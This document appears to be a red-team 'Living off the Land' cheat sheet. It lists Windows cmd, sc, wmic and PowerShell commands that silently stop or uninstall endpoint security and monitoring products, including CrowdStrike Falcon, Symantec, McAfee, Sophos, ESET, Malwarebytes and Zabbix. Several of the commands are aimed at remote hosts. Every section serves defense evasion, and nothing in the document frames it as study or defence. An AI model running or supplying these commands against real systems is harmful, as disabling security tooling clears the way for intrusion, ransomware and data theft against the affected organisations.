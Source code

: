 # Living off the Land

TODO: Convert command prompt to Powershell cmdlets

## 01 - Uninstall Third-Party Endpoints

### 1.1 - MalwareBytes

#### 1.1.1 - Command Prompt

```
C:\> cmd.exe /c "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" /silent /noreboot
```

## 02 - Disable Third-Party Endpoints

### 2.1 - CrowdStrike

Command Prompt

```
C:\> net stop "CrowdStrike Falcon Sensor Service"
```

Powershell

```
PS C:\> Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service")

PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"CrowdStrike Falcon Sensor Service\""}
```

### 2.2 - Symantec

Command Prompt

```
C:\> net stop "Symantec Endpoint Protection"

C:\> sc \\<IP> stop "Symantec Endpoint Protection"
```

Powershell

```
PS C:\> Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection")

PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"Symantec Endpoint Protection\""}
```

### 2.3 - Zabbix

Command Prompt

```
C:\> net stop "Zabbix Agent"

C:\> sc \\<IP> stop "Zabbix Agent"
```

Powershell

```
PS C:\> Get-Service -ComputerName <IP> -Name "Zabbix Agent" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Zabbix Agent")

PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"Zabbix Agent\""}
```

## 03 - Uninstall Endpoints

### 3.1 - Syntax

#### 3.1.1 - Command Prompt

```
C:\> wmic product get name /value
```

> [!NOTE]
> Some AVs particular anti-malware that is installed in windows taken measures to prevent attackers to uninstall it. But not all of them. When uninstalling the software you must have **administrative privileges**.

```
C:\> wmic product where name="<software_name>" call uninstall /nointeractive
```

#### 3.1.2 - Powershell

Convert the commands to cmdlets

```
Get-WmiObject
Get-CimAssociatedInstance
Get-CimInstance
Get-CimClass
Get-CimSession
```

### 3.2 - ESET

#### 3.2.1 - Command Prompt

```
C:\> wmic product where name="ESET File Security" call uninstall /nointeractive
```

### 3.3 - McAfee

#### 3.3.1 - Command Prompt

```
C:\> wmic product where name="McAfee VirusScan Enterprise" call uninstall /nointeractive

C:\> wmic product where name="McAfee Agent" call uninstall /nointeractive

C:\> wmic product where name="McAfee DLP Endpoint" call uninstall /nointeractive

C:\> wmic product where name="McAfee Endpoint Security Platform" call uninstall /nointeractive

C:\> wmic product where name="McAfee Endpoint Security Threat Prevention" call uninstall /nointeractive

C:\> wmic product where name="McAfee SiteAdvisor Enterprise" call uninstall /nointeractive
```

### 3.4.1 - MalwareBytes

#### 3.4.1.1 - Command Prompt

```
C:\> wmic product where name="Malwarebytes Managed Client" call uninstall /nointeractive
```

### 3.5.1 - AVG

#### 3.5.1.1 - Command Prompt

```
C:\> wmic product where name="AVG 2015" call uninstall /nointeractive
```

### 3.6 - Webroot

#### 3.6.1 - Command Prompt

```
C:\> wmic product where name="Webroot SecureAnywhere" call uninstall /nointeractive
```

### 3.7 - Symantec

#### 3.7.1 - Command Prompt

```
C:\> wmic product where name="Symantec Endpoint Protection" call uninstall /nointeractive

C:\> wmic product where name="Symantec Backup Exec Remote Agent for Windows" call uninstall /nointeractive
```

### 3.8 - Sophos

#### 3.8.1 - Command Prompt

```
C:\> wmic product where name="Sophos System Protection" call uninstall /nointeractive

C:\> wmic product where name="Sophos AutoUpdate" call uninstall /nointeractive

C:\> wmic product where name="Sophos Remote Management System" call uninstall /nointeractive
```

---
## References

- [LOFLCAB: Win32_Product](https://lofl-project.github.io/loflcab/WMI/Win32_Product/)